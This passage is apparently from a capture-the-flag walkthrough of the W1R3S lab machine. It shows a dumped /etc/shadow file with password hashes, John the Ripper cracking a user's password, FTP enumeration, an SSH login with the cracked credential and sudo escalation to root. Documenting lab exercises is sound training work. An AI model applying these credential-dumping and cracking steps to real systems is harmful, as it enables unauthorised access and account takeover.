    	cursor:pointer;
        background:url(js/cuppa/cuppa_images/close_white.png) no-repeat;
        background-position: center;
        background-size: 13px;
    }
    .content_alert_config{
    	position:relative;
    	clear:both;
        margin: 2px;
        margin-top: 0px;
        height: 401px;
        padding: 10px;
        overflow: auto;
    }
</style>
<script>
	function CloseDefaultAlert(){
		cuppa.setContent({'load':false, duration:0.2});
        cuppa.blockade({'load':false, duration:0.2, delay:0.1});
	}
</script>
<div class="alert_config_field" id="alert">
    <div class="alert_config_top">
        <strong>Configuration</strong>:         <div class="btnClose_alert" id="btnClose_alert" onclick="CloseDefaultAlert()"></div>
    </div>
    <div id="content_alert_config" class="content_alert_config">
        root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
    </div>
</div>
root@kali:~/W1R3S#
```

###### JTR

```sh
root@kali:~/W1R3S# nano shadow-w1r3s
root@kali:~/W1R3S# cat shadow-w1r3s
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.
root@kali:~/W1R3S# john shadow-w1r3s
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:01 DONE 2/3 (2018-05-21 22:06) 0.8130g/s 718.6p/s 718.6c/s 718.6C/s 123456..green
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/W1R3S#
```

###### FTP Enumeration

```sh
root@kali:~/W1R3S# apt install ncftp
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following NEW packages will be installed:
  ncftp
0 upgraded, 1 newly installed, 0 to remove and 618 not upgraded.
Need to get 284 kB of archives.
After this operation, 1,542 kB of additional disk space will be used.
Get:1 http://mirrors.ocf.berkeley.edu/kali kali-rolling/main amd64 ncftp amd64 2:3.2.5-2 [284 kB]
Fetched 284 kB in 1s (391 kB/s)
Selecting previously unselected package ncftp.
(Reading database ... 351247 files and directories currently installed.)
Preparing to unpack .../ncftp_2%3a3.2.5-2_amd64.deb ...
Unpacking ncftp (2:3.2.5-2) ...
Setting up ncftp (2:3.2.5-2) ...
update-alternatives: using /usr/bin/ncftp3 to provide /usr/bin/ncftp (ncftp) in auto mode
Processing triggers for man-db (2.8.2-1) ...
root@kali:~/W1R3S#
```

```sh
root@kali:~/W1R3S# ncftp 192.168.1.12
NcFTP 3.2.5 (Feb 02, 2011) by Mike Gleason (http://www.NcFTP.com/contact/).
Connecting to 192.168.1.12...
Welcome to W1R3S.inc FTP service.
Logging in...
Login successful.
Logged in to 192.168.1.12.
ncftp / > ls -lah
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:21 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:25 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28 17:53 new-employees
ncftp / > cd content/
Directory successfully changed.
ncftp /content > ls -lah
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:21 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
-rw-r--r--    1 ftp      ftp            29 Jan 23 12:16 01.txt
-rw-r--r--    1 ftp      ftp           165 Jan 23 12:20 02.txt
-rw-r--r--    1 ftp      ftp           582 Jan 23 12:21 03.txt
ncftp /content > cat 01.txt
New FTP Server For W1R3S.inc

ncftp /content >
ncftp /content > cat 02.txt
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################

ncftp /content >
ncftp /content > cat 03.txt
___________.__              __      __  ______________________   _________    .__
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/

ncftp /content >
ncftp /content > cd ..
Directory successfully changed.
ncftp / >
ncftp / > ls -lah
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:21 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:25 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28 17:53 new-employees
ncftp / >
ncftp / > cd docs/
Directory successfully changed.
ncftp /docs > ls -lah
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:25 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
-rw-r--r--    1 ftp      ftp           138 Jan 23 12:25 worktodo.txt
ncftp /docs > cat worktodo.txt
	ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ

ncftp /docs >
ncftp /docs > cd ..
Directory successfully changed.
ncftp / >
ncftp / > ls -lah
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:21 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:25 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28 17:53 new-employees
ncftp / > cd new-employees/
Directory successfully changed.
ncftp /new-employees > ls -lah
drwxr-xr-x    2 ftp      ftp          4096 Jan 28 17:53 .
drwxr-xr-x    5 ftp      ftp          4096 Jan 23 12:16 ..
-rw-r--r--    1 ftp      ftp           155 Jan 28 17:53 employee-names.txt
ncftp /new-employees > cat employee-names.txt
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources


ncftp /new-employees > exit


	Thank you for using NcFTP Client.
	If you find it useful, please consider making a donation!
	http://www.ncftp.com/ncftp/donate.html


root@kali:~/W1R3S#
```

###### Privilege Escalation

```sh
root@kali:~/W1R3S# ssh w1r3s@192.168.1.12
The authenticity of host '192.168.1.12 (192.168.1.12)' can't be established.
ECDSA key fingerprint is SHA256:/3N0PzPMqtXlj9QWJFMbCufh2W95JylZ/oF82NkAAto.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.12' (ECDSA) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.1.12's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

149 packages can be updated.
0 updates are security updates.

*** System restart required ***
.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s:
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
w1r3s@W1R3S:~$ sudo su -
sudo: unable to resolve host W1R3S
root@W1R3S:~# ls -lah
total 48K
drwx------  6 root root 4.0K Feb  4 20:28 .
drwxr-xr-x 24 root root 4.0K May 21 18:51 ..
-rw-------  1 root root 7.0K Feb  4 20:29 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Jan 22 22:01 .cache
-rw-r--r--  1 root root 2.0K Feb  4 20:28 flag.txt
drwx------  3 root root 4.0K Jan 22 22:02 .gnupg
-rw-------  1 root root 1.1K Jan 28 22:38 .mysql_history
drwxr-xr-x  2 root root 4.0K Jan 22 21:25 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4.0K Jan 22 21:59 .ssh
root@W1R3S:~# cat flag.txt
-----------------------------------------------------------------------------------------
   ____ ___  _   _  ____ ____      _  _____ _   _ _        _  _____ ___ ___  _   _ ____
  / ___/ _ \| \ | |/ ___|  _ \    / \|_   _| | | | |      / \|_   _|_ _/ _ \| \ | / ___|
 | |  | | | |  \| | |  _| |_) |  / _ \ | | | | | | |     / _ \ | |  | | | | |  \| \___ \
 | |__| |_| | |\  | |_| |  _ <  / ___ \| | | |_| | |___ / ___ \| |  | | |_| | |\  |___) |
  \____\___/|_| \_|\____|_| \_\/_/   \_\_|  \___/|_____/_/   \_\_| |___\___/|_| \_|____/

-----------------------------------------------------------------------------------------

                          .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./

----------------------------------------------------------------------------------------
  YOU HAVE COMPLETED THE
               __      __  ______________________   _________
              /  \    /  \/_   \______   \_____  \ /   _____/
              \   \/\/   / |   ||       _/ _(__  < \_____  \
               \        /  |   ||    |   \/       \/        \
                \__/\  /   |___||____|_  /______  /_______  /.INC
                     \/                \/       \/        \/        CHALLENGE, V 1.0
----------------------------------------------------------------------------------------

CREATED BY SpecterWires

----------------------------------------------------------------------------------------
root@W1R3S:~#
```